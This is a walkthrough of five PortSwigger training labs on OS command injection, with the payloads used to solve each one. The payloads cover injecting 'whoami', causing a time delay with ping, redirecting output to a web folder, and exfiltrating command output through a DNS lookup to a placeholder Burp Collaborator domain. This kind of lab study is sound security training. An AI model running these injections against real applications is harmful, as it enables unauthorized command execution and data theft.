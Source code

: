 # OS Command Injection
> OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. Very often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.

## Lab 1 : OS command injection, simple case

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user.

### Sol :

If we click a product and click check stock. then, we will get the ProductId & StoreId

![image](https://user-images.githubusercontent.com/33444140/236799000-1d2eeac3-d715-48e9-ae44-6bfa91b84c9f.png)

Then, we are giving `|whoami` to know the `Username` 
    
     ProductId=1&StoreId=1|whoami

We got the username and the lab is solved

 ![Screenshot 2023-05-08 151841](https://user-images.githubusercontent.com/33444140/236875721-9bf7a4ac-7f9a-4939-a6b7-e63e5292c5dc.png)
 
## Lab 2 : Blind OS command injection with time delays

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.
    
### Sol :

* Go to the submit feedback option and give a feedback
* Intercept the connection, then you will see the name, email, subject, message fields
![image](https://user-images.githubusercontent.com/33444140/236868717-e1624987-d07c-4e0e-82d2-54f00405a510.png)

* Here email is the vulnerable one and we will exploit this with time delays
* In email field give command

      email=test||ping+-c+10+127.0.0.1||
      
![image](https://user-images.githubusercontent.com/33444140/236869514-9ddd8a6a-b1cf-459f-8acd-cf2a56154081.png)

* If we run this request the page gets delayed to its loopback address and the lab is solved

## Lab 3 : Blind OS command injection with output redirection

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

/var/www/images/
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output

### Sol :

Intercepting the request 

![3rdlab](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/f8a310d1-39f4-4d3b-972f-9f810e8f9371)

![3rdlab2](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/94944035-f8a0-42c2-9998-6e51d2f521f2)

We will redirect the output to a example file by using command

        email=||whoami>/var/www/images/example.txt||

![3rdlab4](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/a341e796-b6f7-49c2-a639-527fab69c0e2)

![3rdlab5](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/1722c173-2af3-4f76-a771-b5c0f84d3d26)

## Lab 4: Blind OS command injection with out-of-band interaction

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

### Sol :

* Use Burp Suite to intercept and modify the request that submits feedback.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/122d8b1c-416f-4bf7-a54c-3deb765023da)

* Modify the `email` parameter, changing it to below payload by giving your own burp collaborator domain

      email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/4e958d39-fa2e-4126-99ca-4b9e5a5980f4)

* Thus, the lab is solved.

## Lab 5: Blind OS command injection with out-of-band data exfiltration

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

### Sol :

* Use Burp Suite Professional to intercept and modify the request that submits feedback.
* Go to the Collaborator tab
* Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
* Modify the email parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:

        email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
* Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
* Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/74a6487f-3135-46d0-89dc-1e2bb541041d)

* Enter the name of the current user. the lab is solved.
